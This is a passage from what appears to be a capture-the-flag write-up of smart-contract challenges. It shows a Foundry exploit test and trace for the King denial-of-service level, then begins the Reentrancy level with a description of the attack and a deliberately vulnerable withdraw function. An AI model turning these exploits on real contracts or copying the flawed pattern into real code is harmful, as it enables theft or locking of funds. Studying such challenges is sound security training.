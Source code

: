 ### 🧪 Exploit Test
```solidity 
   function test_attack() public {
    vm.prank(attackerEOA);
    attack.attack{value: 2 ether}(); // attacker becomes king

    assertEq(king._king(), address(attack)); // ✅ attacker is king

    vm.prank(player);
    (bool success, ) = address(king).call{value: 3 ether}(""); // another player tries
    assertFalse(success, "Player should not be able to become king anymore"); // ❌ fails
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 71672)
Traces:
  [71672] KingTest::test_attack()
    ├─ VM::prank(attackerEOA)
    ├─ Attacker::attack{value: 2 ether}()
    │   ├─ King::receive{value: 2 ether}()
    │   │   ├─ player::fallback{value: 2 ether}()
    │   │   └─ [Stop]
    │   └─ [Stop]
    ├─ King::_king() → Attacker
    ├─ VM::assertEq(Attacker, Attacker)
    ├─ VM::prank(player)
    ├─ King::receive{value: 3 ether}()
    │   ├─ Attacker::receive{value: 3 ether}() → [Revert] sent eth failed
    │   └─ [Revert]
    ├─ VM::assertFalse(false, "Player should not be able to become king anymore")
    └─ [Stop]

Suite result: ok. 1 passed; 0 failed; finished in 15.46ms
```
---

## Level 11:Reentrancy
**AttackDesc**:
This is a reentrancy attack, where the attacker recursively calls the withdraw function within the fallback/receive function before the contract's state is updated, allowing them to drain all the funds.

### 🔍 Vulnerable Function

```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result, ) = msg.sender.call{value: _amount}("");
        if (result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
    }
}
```
